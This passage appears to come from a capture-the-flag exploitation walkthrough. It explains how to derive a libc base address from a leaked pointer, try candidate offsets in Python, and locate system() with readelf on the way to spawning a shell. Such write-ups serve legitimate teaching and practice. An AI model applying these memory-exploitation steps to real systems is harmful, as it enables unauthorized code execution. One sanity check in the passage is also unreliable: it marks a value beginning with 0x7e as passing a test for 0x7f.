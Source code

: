 **Local testing showed:**
```
Leaked height value: 0x7fba27bbd5c0
Actual libc base:    0x7fba279d5000
Offset:              0x1e85c0
```

**But the remote server uses offset 0x21aaa0!**

**Why different?**
- Local and remote use different libc versions
- Different versions have different memory layouts
- The OFFSET depends on what the leaked pointer actually points to

**How did the writeup author find 0x21aaa0?**
1. Tested locally (found their offset)
2. Tried on remote
3. If it didn't work, tried nearby offsets
4. Found 0x21aaa0 works on remote

---

#### Common Confusion #2: How to Find the Right Offset

**Q: How do I know if my offset is correct?**

**A:** Check if the calculated libc base makes sense:

```python
leaked = 0x7e343da55aa0
libc_base = leaked - 0x21aaa0  # = 0x7e343d83b000

# Checks:
# 1. Starts with 0x7f (but not 0x7ffc or 0x7fff) ✓
# 2. Ends with 000 (page-aligned) ✓
# 3. Reasonable range (0x7f00... to 0x7fff...) ✓
```

**If any check fails, try different offsets:**
```python
for offset in [0x1e85c0, 0x21aaa0, 0x29aaa0, 0x1aaa0]:
    test_base = leaked - offset
    if test_base & 0xfff == 0:  # Check if page-aligned
        log.info(f"Offset {hex(offset)}: base = {hex(test_base)}")
```

---

#### Step 4: Finding system() and "/bin/sh"

Once we have libc base, we need two more addresses:

**1. Address of `system()` function:**
```bash
readelf -s libc.so.6 | grep " system"
```
Output:
```
1481: 0000000000050d70    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5
```
So `system()` is at offset `0x50d70` from libc base.
